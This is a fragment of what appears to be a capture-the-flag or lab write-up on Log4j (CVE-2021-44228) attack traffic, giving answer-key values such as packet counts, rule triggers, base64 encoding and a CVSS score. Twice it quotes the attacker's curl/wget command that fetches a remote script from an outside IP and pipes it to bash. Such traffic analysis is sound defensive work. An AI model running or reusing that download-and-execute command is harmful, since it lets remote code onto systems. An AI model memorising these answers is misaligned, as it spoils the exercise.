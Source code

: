     - Command: `(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash` [].
11. Searched NIST for CVSS v2 score of Log4j (CVE-2021-44228): **9.3** 

**Answers** (per your input, with CVSS correction noted):
- **Number of detected packets**: 26
- **Number of rules triggered**: 4
- **First six digits of SIDs**: `210037`
- **Number of detected packets (770-855 bytes)**: 41
- **Encoding algorithm**: `base64`
- **Attacker’s command**: `(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash`
- **CVSS v2 score**: 9.3  

---


